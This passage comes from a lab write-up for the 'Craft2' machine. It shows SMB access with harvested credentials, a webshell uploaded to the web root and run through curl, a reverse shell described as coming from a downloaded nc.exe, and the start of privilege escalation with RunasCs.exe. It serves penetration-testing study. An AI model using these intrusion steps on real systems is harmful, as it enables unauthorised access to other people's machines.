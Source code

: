 The WebApp one looked like the next stage. We can connect to it and view the files:

```
$ smbclient -U thecybergeek //192.168.197.188/WebApp        
Password for [WORKGROUP\thecybergeek]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr  6 00:16:03 2022
  ..                                  D        0  Wed Apr  6 00:16:03 2022
  assets                              D        0  Wed Apr  6 00:16:03 2022
  css                                 D        0  Wed Apr  6 00:16:03 2022
  index.php                           A     9768  Tue Feb  1 00:21:52 2022
  js                                  D        0  Wed Apr  6 00:16:03 2022
  upload.php                          A      896  Mon Jan 31 23:23:02 2022
  uploads                             D        0  Wed Jul  5 23:57:54 2023
```

The previous machine Craft allowed us to upload webshells to the web directory, and it works here too:

```
smb: \> put cmd.php
putting file cmd.php as \cmd.php (0.1 kb/s) (average 0.1 kb/s)

$ curl http://192.168.197.188/cmd.php?cmd=whoami
craft2\apache
```

We can then easily get a reverse shell by downloading `nc.exe` onto the machine and executing it.&#x20;

<figure><img src="../../../.gitbook/assets/image (182) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

This time, the `apache` user had no abusable privileges, and there was nothing much about the current user.

### RunasCs.exe --> Lateral Movement Fail

We still had `thecybergeek` password, and this is abusable using `RunasCs.exe`.&#x20;

